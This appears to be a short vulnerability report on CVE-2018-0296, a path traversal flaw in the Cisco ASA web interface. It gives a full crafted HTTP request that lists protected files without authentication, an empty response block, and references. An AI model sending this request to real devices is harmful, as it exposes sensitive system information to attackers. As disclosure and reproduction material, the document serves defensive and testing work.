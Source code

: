 
# Path Traversal (CVE-2018-0296)

A vulnerability in the web interface of the Cisco Adaptive Security Appliance (ASA) could allow an unauthenticated, remote attacker to cause an affected device to reload unexpectedly, resulting in a denial of service (DoS) condition. An attacker could view sensitive system information without authentication by using directory traversal techniques. 

## Steps To Reproduce

List files in folder +CSCOE+
```
GET /+CSCOU+/../+CSCOE+/files/file_list.json?path=%2bCSCOE%2b HTTP/1.1
Host: $HOST
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en

```

Response
```

```
 

## Impact

A path traversal vulnerability allows an attacker to access files on your web server to which they should not have access

 
### Supporting Material/References
https://hackerone.com/reports/377542
https://github.com/yassineaboukir/CVE-2018-0296




